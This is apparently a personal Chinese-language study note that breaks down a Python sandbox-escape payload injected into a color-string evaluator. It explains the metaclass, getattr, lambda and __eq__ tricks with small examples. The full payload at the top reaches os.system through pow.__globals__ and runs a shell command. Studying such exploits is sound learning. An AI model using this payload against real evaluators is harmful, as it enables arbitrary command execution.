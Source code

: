 先不看它的执行过程了，单就payload而言

```python
THE INJECTED PYTHON CODE THAT IS PASSED TO THE COLOR EVALUATOR
[
   [
       getattr(pow, Word('__globals__'))['os'].system('touch /tmp/exploited')
       for Word in [
           orgTypeFun(
               'Word',
               (str,),
               {
                   'mutated': 1,
                   'startswith': lambda self, x: False,
                   '__eq__': lambda self, x: self.mutate()
                   and self.mutated < 0
                   and str(self) == x,
                   'mutate': lambda self: {setattr(self, 'mutated', self.mutated - 1)},
                   '__hash__': lambda self: hash(str(self)),
               },
           )
       ]
   ]
   for orgTypeFun in [type(type(1))]
]
```



这里用到的基础点有

### 动态属性访问

getattr()，返回一个对象属性值

```python
#getattr(pow, Word('__globals__'))
#理解如下：
class A():
    bar=34

a=A()

print(getattr(a,'bar'))
#34
print(getattr(a,'bxr'))
#提示A无属性bxr

#那么getattr(pow, Word('__globals__'))['os']怎么解释？
class A():
    bar={
        'os':'os',
        'osb':'system'
    }
a=A()
print(getattr(a,'bar'))
#{'os': 'os', 'osb': 'system'}

print(getattr(a,'bar')['osb'])
#system
```

### 列表解析

以一个for循环为例

```python
#一般写法
out=[]
for i in range(10):
    out.append(i)

#列表写法：
out= [number for number in range(10)]
#[0, 1, 2, 3, 4, 5, 6, 7, 8, 9]

```

所以我可以理解为，它自带声明一个列表，将结果以列表形式返回，有的时候可读性好，复杂一点就不好搞了

```python
for i in range(1,10):
    for j in range(1,i+1):
        if i==j:
            print("{}*{}={}".format(j,i,i*j))
        else:
            print("{}*{}={}".format(j,i,i*j),end=" ")
            
#单列表            
num=[print("{}*{}={}".format(j,i,j*i),end="\n" if i==j else " ") for i in range(1,10) for j in range(1,i+1)]

#双列表
num=[[f"{j}*{i}={i*j}" for i in range(1,10)] for j in range(1,10)]
print(num)
这种当然是有重复的，所以一般双列表貌似更复杂，不好搞
主要就是语法格式，还是遵循从左往右读，最前面的f"{j}*{i}={i*j}"是最终输出值
```

### 元类及创建类

python里一切皆对象，类也算对象

 元类就是类的类，python中函数type实际上是一个元类，是所有类的创造者

```python
a=10
print(f"{a.__class__}+{a.__class__.__class__}+{a.__class__.__class__.__class__}")
#<class 'int'>+<class 'type'>+<class 'type'>
```

`type`()很好理解，就是返回类的类型

比如type(1)，就是int；type("123")就是str

这里创建类，用的函数，orgTypeFunc这个我实验了一下，就是随便声明的无特殊含义

type多用于动态声明类，class是标准类的声明方式，区别嘛：

- `type('Word', (str,), {})` 是在运行时动态创建类对象，它在代码执行时才会创建类对象。

- `class Word` 是在代码编写时静态定义类，它在解析代码时就会创建类对象。

  

- `type('Word', (str,), {})` 使用 `type()` 函数，第一个参数是类的名称，第二个参数是基类元组，第三个参数是类的属性字典。

- `class Word` 使用标准的类定义语法，包括 `class` 关键字、类名、基类、类体等。

```python
Word=type('Word',(str,),{
    'mutated': 1,
    'startswith': lambda self, x: False,
    '__eq__': lambda self, x: self.mutate()
    and self.mutated < 0
    and str(self) == x,
    'mutate': lambda self: {setattr(self, 'mutated', self.mutated - 1)},
    '__hash__': lambda self: hash(str(self)),
})

yly=Word('__yly__')
print(yly=='__yly__') # False
#后面都是True
print(yly=='__yly__')
print(yly=='__yly__')
print(yly=='__yly__')

print(yly.startswith('__')) #False

```

这一块跟着调试走，已经明白它的逻辑了，主要是有一些基础方法，可以学习一下



它建立了一个Word类，添加了1个属性和特殊方法的**重写**(意味着可以自动触发)

`setattr(object, attribute, value)`，设置对象属性值

`lambda arguments: expression`，匿名函数(不想起名字)

```python
#lambda函数

def x(a):
	print(a+10)
x(5) #15


s=lambda a:print(a+10)
s(6)#16

s=lambda self,x: x-1==1 and x==2
print(s(1,2)) #true

#__eq__方法
class myclass:
    def __eq__(self,x):
        return x==2
    pass
obj=myclass()
print(obj==3) #false，这个就是将obj给了self这个实例，3给了x，具体的我不好细究，放过
print(obj==2) #true

 def __eq__(self,x,y=2):#__eq__一般只接受两个参数
        return x==y
   
```

```python
Word=type('Word', (str,), {}) #第二个参数是一个基类元组，这个定义了一个获得str类相同作用的自定义Word类，把它当字符串用，这个类是Word类，你要赋值给其它变量也无所谓，比如xxx=type('Word',(str,),{})
这种类似于go语言中的 type a string，a获得了sting了的所有用法和属性，但又是一个新类

class B(str):
    pass
class A(int):
    pass
wd=B('1231')
print(wd)#1231
print(type(wd))#<class '__main__.B'>
print(type(A(1)))#<class '__main__.A'>
print(A(1)) #1


#type()不是继承关系，isinstance()是，但是从bug分析的那个作者说，In other words it can allow the creation of a new class that inherits from another class.点明了是一种继承关系
class A():
    pass
class B(A):
    pass
print(isinstance(B(),A))
print(type(A()),A,A())
print(B,B())
print(type(B()))
print(type(B())==B)
print(type(B())==A)
#True
#<class '__main__.A'> <class '__main__.A'> <__main__.A object at 0x000001F1E9BF3160>
#<class '__main__.B'> <__main__.B object at 0x000001F1E9BF3160>
#<class '__main__.B'>
#True
#False
```

关于这个\__globals__，貌似是方法会有，但是其实例又没有

```python
def xx():
    return "hello"
print(dir(xx)) #有
print(dir(xx()))#没有
```


